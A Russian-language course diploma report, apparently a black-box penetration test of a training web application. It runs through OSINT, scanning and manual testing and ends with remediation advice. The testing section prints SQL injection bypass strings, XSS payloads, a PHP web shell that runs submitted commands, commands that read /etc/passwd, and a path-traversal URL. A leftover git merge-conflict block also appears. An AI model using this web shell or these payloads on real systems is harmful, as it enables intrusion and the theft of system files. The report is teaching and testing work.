# Дипломная работа по профессии «Специалист по информационной безопасности»

## Track Penetration Testing

### Задача

Нужно протестировать сервис на безопасность — провести полноценое тестирование на проникновение методом чёрного ящика. Известен только адрес тестируемого приложения — 92.51.39.106.


## Этапы тестирования

### Этап 1. OSINT

**WHOIS** - этот пакет предоставляет клиент командной строки для протокола WHOIS, который запрашивает у онлайн-серверов такую ​​информацию, как контактные данные доменов и назначенные IP-адреса. Он может автоматически выбирать подходящий WHOIS-сервер для большинства запросов.

Результаты:

* Организация: "TIMEWEB"
* Владелец: Igor Gilmutdinov
* Адрес: Россия (RU), 196006, Saint-Petersburg, Zastavskaya str., 22/2 lit.A
* Электронная почта: abuse@timeweb.ru
* Телефоны: +78122481081, +74950331081


**Shodan**-поисковая система, позволяющая пользователям искать различные типы серверов, подключённых к сети Интернет, с использованием различных фильтров.

Результат запроса в Shodah: [(https://www.shodan.io/host/92.51.39.106](https://www.shodan.io/host/92.51.39.106)




Найдены открытые порты:

22 (TCP) - OpenSSH8.2p1 Ubuntu 4ubuntu0.13

8050 (TCP) - Server: Apache/2.4.7 (Ubuntu)

Используется версия PHP 5.5.9 на сервере. На сайте **cvedetails.com** данная версия указана как устаревшая со множеством уязвимостей:


**Google Dorking** - поисковая система интернета. 

Скрытые страницы и конфиденциальные файлы не обнаружены:




**https://check-risk.ru/service/check-ports**



**whatweb**


Найдено два сервиса:

8050 (TCP) -  NetologyVulnApp.com использует HTTPServer: Apache/2.4.7 (Ubuntu)

7788 (TCP) - Beemers использует HTTPServer: TornadoServer/5.1.1

На  https://www.cvedetails.com найдены уязвимости по данным версиям серверов:


На основании вышеизложенного мы выбираем цели  для сканирования - http://92.51.39.106:8050/  и http://92.51.39.106:7788/ 


### Этап 2. Scanning

**NMap**


Результат:
Открыт порт 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0).

**Spiderfoot**










Результат:

* Открыт порт 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0).
* Cеть 92.51.39.0/24
* Эл.почта: abuse@timeweb.ru

**Acunetix**


Результат:
* Уязвимость критического уровня является - SQL Injection.
* Уязвимость высокого уровня -Cross Site Scripting и Local File Inclusion. 

Файл с отчетом сканирования Acunetix - [отчет](https://github.com/Mikhalkevich-N/Diplom-Track-Penetration_Testing/blob/main/20251009_Developer_http_92_51_39_106_8050_.pdf)

**zaproxy**

8050


<<<<<<< HEAD

7788


=======
Результат:

* High Priority Alerts:
 * Cross Site Scripting (DOM Based)
 * Cross Site Scripting (Persistent)
 * Cross Site Scripting (Reflected)

*Medium Priority Alerts:
 * Absence of Anti-CSRF Tokens
 * Application Error Disclosure
 * Content Security Policy (CSP) Header Not Set
 * Directory Browsing
 * Missing Anti-clickjacking Header

* Low Priority Alerts:
 * Cookie No HttpOnly Flag
 * Cookie without SameSite Attribute
 * Server Leaks Information via "X-Powered-By" HTTP Response Header Field(s)
 * Server Leaks Version Information via "Server" HTTP Response Header Field
 * Timestamp Disclosure - Unix
 * X-Content-Type-Options Header Missing
>>>>>>> 172bcb202b6cca22478e5f646bd469127baacfe8

### Этап 3. Testing

#### Цель: http://92.51.39.106:8050

Проверим вручную некоторые уязвимости критического и высокого уровня:

**SQL Injections**
По адресу http://92.51.39.106:8050/users/login.php, в поле Username вводим admin' or '1'='1'#, а в поле Password, например- 123:



**Cross Site Scripting (DOM Based)**

По адресу http://92.51.39.106:8050/guestbook.php введем код JavaScript в поле комментария-

```
<script>alert('simple attack')</script>
```


После сохранения комментария видим, что атака удалась:



**Cross Site Scripting (Persistent)**
Введем в форму отправки комментария код:
```
<script>alert('You are hacked!')</script>
```


После сохранения комментария код выполняется:


**Cross Site Scripting (Reflected)**
На сайте в форме поиска введем в строку поиска код -
```
<a href="http://92.51.39.106:8050/" onclick="alert('Cross Site Scripting (Reflected) attack!'); return false;">Ссылка на x-сайт </a>
```




По ссылке получим сообщение в браузере:


**Local File Inclusion**
 Cоздадим файл file.php следующего содержания:
 ```
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>
<form method="post">
    Command: <input type="text" name="cmd">
    <input type="submit" value="Run command!">
</form>
 ```




Файл загружен:


Код выполнился:



Вводим:

```
whoami; pwd; cat /etc/passwd
```


#### Цель: http://92.51.39.106:7788

**SQL Injections**
По адресу http://92.51.39.106:7788/login.html  в поле Username введем admin' or '1'='1--, а в поле Password, например - 123:



Авторизация успешна:


**Cross Site Scripting (DOM Based)**

По адресу http://92.51.39.106:7788/index.html введем в поле поиска -


```
<script>alert('simple attack')</script>
```


**Cross Site Scripting (Reflected)**
На сайте в форме поиска введем в строку поиска код -
```
<a href="http://92.51.39.106:8050/" onclick="alert('Cross Site Scripting (Reflected) attack!'); return false;">Ссылка на x-сайт </a>
```


 Кликнем по ссылке, и получим сообщение в браузере:


**Path Traversal**
```
 http://92.51.39.106:7788/read?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

```



### Рекомендации по исправлению уязвимостей.

**SQL Injections**
Для защиты от SQL-инъекций (атак с внедрением SQL-кода) рекомендуется:

* Параметризованные запросы
Вместо прямой вставки пользовательского ввода в запрос используются специальные местозаменители (плейсхолдеры). База данных выполняет запрос, подставив параметры только в отведённые места, и воспринимает их только как данные, а не как часть команды. 

* Валидация ввода
Проверка типа данных: если ожидается число, нужно убедиться, что введено число (использовать int(), float()).
Проверка формата: для email, телефонов, дат использовать регулярные выражения или специализированные библиотеки валидации.
Проверка длины: ограничить максимальную длину вводимых строк.
Валидация белого списка: разрешать только входные данные, соответствующие предопределённому набору допустимых значений или шаблонов.
Валидация чёрного списка: отклонять входные данные, соответствующие предопределённому набору известных вредоносных шаблонов.
 
* Экранирование
Экранирование специальных символов (например, кавычек, апострофов, обратных слешей) может помочь предотвратить внедрение SQL-кода. Однако полагаться только на экранирование недостаточно, так как оно может быть обойдено. 
В некоторых случаях может применяться функция экранирования, специфичная для СУБД (например, mysqli_real_escape_string() в PHP для MySQL). 

* Мониторинг
Регулярно проверять логи веб-сервера и базы данных на подозрительные запросы. 
Использовать веб-фаерволы (WAF), которые фильтруют подозрительные запросы, блокируя попытки SQL-инъекций ещё до того, как они дойдут до приложения.
Проводить регулярные пентесты и аудит кода — проверки кода, автоматизированное сканирование и ручное тестирование помогают выявлять уязвимости на раннем этапе.

**Cross Site Scripting**

 Для устранения уязвимостей cross-site scripting xss рекомендуется:

#### На стороне сервера

* Экранировать или фильтровать данные перед их отображением, чтобы предотвратить выполнение вредоносного кода. Например:
  * В HTML — заменять < и > на < и >.
  * В JavaScript — избегать прямой вставки значений и использовать безопасный метод textContent вместо innerHTML.
* Валидировать данные и настроить строгие критерии для ввода — проверять длину текста, формат или тип данных, которые отправляет пользователь. Это помогает исключить некорректные значения ещё до обработки.
* Использовать библиотеки для очистки HTML-кода (например, DOMPurify), которые автоматически удаляют потенциально опасные элементы.
* Регулярно обновлять программное обеспечение — уязвимости могут быть обнаружены в веб-серверах, фреймворках и библиотеках.
 
#### На стороне клиента
* Настроить политику безопасности контента (CSP) — это набор правил, который задаётся для браузера, определяет, какие скрипты можно выполнять на сайте, а какие — нет. Например, настроить CSP-заголовки для запрета inline-скриптов и ограничения доверенных источников для загрузки скриптов.
* Не использовать JavaScript прямо в HTML, например в атрибутах onclick, onerror. Лучше привязывать обработчики событий через JavaScript.
* Использовать современные фреймворки и библиотеки — многие из них предоставляют встроенные механизмы защиты от XSS, автоматически экранируя данные при их выводе.


